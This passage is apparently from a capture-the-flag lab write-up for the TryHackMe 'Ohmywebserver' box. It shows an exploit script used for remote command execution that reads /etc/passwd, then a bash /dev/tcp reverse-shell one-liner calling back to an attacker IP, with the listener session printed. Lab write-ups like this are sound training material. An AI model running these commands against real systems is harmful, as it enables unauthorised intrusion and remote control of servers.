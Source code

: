 
Run against the vulnerable server as a test:

> bash 50383.sh targets.txt /bin/sh "cat /etc/passwd"

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
```


Try to run with a reverse shell:

> bash 50383.sh targets.txt /bin/bash "bash -i >& /dev/tcp/10.9.1.154/4444 0>&1"

Success:
```
┌──(kali㉿kali)-[~/THM/Ohmywebserver]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.1.154] from (UNKNOWN) [10.10.58.80] 49768
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
daemon@4a70924bafa0:/bin$ pwd
pwd
/bin
daemon@4a70924bafa0:/bin$ whoami
whoami
daemon
daemon@4a70924bafa0:/bin$ 
```

This shell is slow. Tried to upgrade, but didnt go so well.


---
## Linux Enum
Found some interesting capabilties with **linpeas.sh**
